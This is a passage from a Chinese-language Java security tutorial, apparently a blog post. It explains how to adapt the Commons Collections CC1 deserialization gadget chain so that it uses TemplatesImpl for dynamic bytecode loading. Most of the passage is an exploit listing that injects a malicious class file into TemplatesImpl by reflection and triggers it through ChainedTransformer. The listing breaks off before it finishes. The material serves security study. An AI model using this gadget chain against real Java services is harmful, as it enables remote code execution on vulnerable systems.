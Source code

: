 









## TemplatesImpl 利用





### CC1 链的 TemplatesImpl 的实现方式

>TemplatesImpl 只是将原本的命令执行变成代码执行的方式，所以在不考虑黑名单的情况下，如果可以进行命令执行，则一定可以通过动态加载字节码进行代码执行。

如图，链子不变，只是最后的命令执行方式变了。

![](https://i.imgur.com/RrL6l8n.png)

所以这里我们先尝试修改命令执行的方法，这时候的链子应该是从后往前的，也就是确定了命令执行的方式之后，将传参设置为动态加载的字节码。并且前面的链子不变。

暂时的 EXP 是这样的。
```java=
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CC1TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 // templates.newTransformer();  
  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 chainedTransformer.transform(1);   
```